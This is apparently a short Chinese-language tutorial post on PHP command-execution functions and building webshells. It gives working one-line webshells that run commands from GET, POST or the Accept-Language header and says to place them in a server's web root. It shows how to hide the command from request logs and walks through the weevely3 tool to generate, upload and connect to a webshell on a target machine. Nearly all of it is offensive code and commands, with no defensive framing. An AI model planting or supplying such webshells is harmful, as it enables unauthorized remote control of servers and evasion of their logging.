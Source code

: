 ```yaml
---
title: PHP webshell 漏洞
date: 2022-02-15 00:00:00
tags: 技术
---
```


# webshells

    通过PHP脚本获取webshell

# PHP函数

## system()
```php
<?php
// Return the user the script is running under
system("whoami");
?>
```

## exec()
```
<?php
// Executes but returns nothing
exec("ls -la");
?>

<?php
// Executes, returns only last line of the output
echo exec("ls -la");
?>

<?php
// Executes, returns the output in an array
exec("ls -la",$array);
print_r($array);
?>
```

## shellexec()
```php
<?php
// Executes, returns the entire output as a string
echo shell_exec("ls -la");
?>
```

## passthru()
```php
<?php
// Executes, returns output in raw format
passsthru("ls -la");
?>
```

# Backticks
```php
<?php
$output = `whoami`;
echo "<pre>$output</pre>";
?>
```

## 所有函数合集
* exec
* system
* passthru
* shell_exec
* proc_open
* show_source
* parse_ini_file
* popen

# 构造webshell

    $_GET接收get请求的cmd参数内容
    system执行该参数
```php
<?php system($_GET['cmd']);?>
```
    将该文件webshell.php放到wwwroot目录下
    用浏览器发送get请求即可获取命令返回
```browser
http://ip:port/webshell.php?cmd=whoami
```

# 隐藏webshell

    由于上述get请求会被记录,可以很容易被看到
    可以将请求加入到post中
```php
<?php system($_POST['cmd']);?>
```
    将请求加入到header中
```php
<?php system($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>
```

# 实战

> https://github.com/epinna/weevely3

    使用已经开发好的工具

1. 生成php脚本
```shell
./weevely.py generate passwd webshell.php
```

2. 脚本发送到目标机器上

3. 本地连接目标机器
```shell
./weevely.py http://ip/webshell.php passwd
weevely>
```